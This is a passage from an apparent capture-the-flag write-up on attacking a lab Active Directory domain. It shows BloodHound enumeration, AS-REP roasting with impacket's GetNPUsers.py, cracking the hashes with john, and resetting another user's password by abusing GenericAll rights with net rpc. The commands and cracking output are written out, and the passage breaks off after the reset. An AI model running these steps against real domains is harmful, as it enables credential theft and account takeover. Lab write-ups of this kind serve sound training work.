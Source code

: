 Uploading the collected data to `Bloodhound`.

Checking for AS-REP Roastable users, there are three.

![AS-REP Roastable users](ASREPRoastableUsers.webp){: width="850" height="450" }

- ERNESTO_SILVA@THM.CORP
- TABATHA_BRITT@THM.CORP
- LEANN_LONG@THM.CORP

Using impacket's `GetNPUsers.py` to request a tgt for the users.

```console
$ GetNPUsers.py -request -format john -no-pass thm.corp/ERNESTO_SILVA
$ GetNPUsers.py -request -format john -no-pass thm.corp/TABATHA_BRITT
$ GetNPUsers.py -request -format john -no-pass thm.corp/LEANN_LONG
```

Using `john` to crack the hashes we got, we get a password for `TABATHA_BRITT`.

```console
$ john asrep_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]   ($krb5asrep$TABATHA_BRITT@THM.CORP)     
1g 0:00:01:40 DONE (2024-01-27 00:38) 0.009928g/s 142412p/s 342065c/s 342065C/s  0841079575..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## Shell as Administrator

### More enumeration with Bloodhound

Checking the rights for `TABATHA_BRITT`, we notice a chain of rights leading up to `DARLA_WINTERS`.

![BloodHound Enumeration](BloodhoundEnum.webp){: width="700" height="250" }

### Resetting the passwords

Since `TABATHA_BRITT` has `GenericAll` for `SHAWNA_BRAY`, we can use this to reset the password for `SHAWNA_BRAY`.

Using `net rpc` to achieve this.

```console
$ net rpc password "SHAWNA_BRAY" "NewPassword123@" -U "THM.CORP"/"TABATHA_BRITT"%"[REDACTED]" -S "haystack.thm.corp"
```

Testing the password change using `crackmapexec`, it was a success.
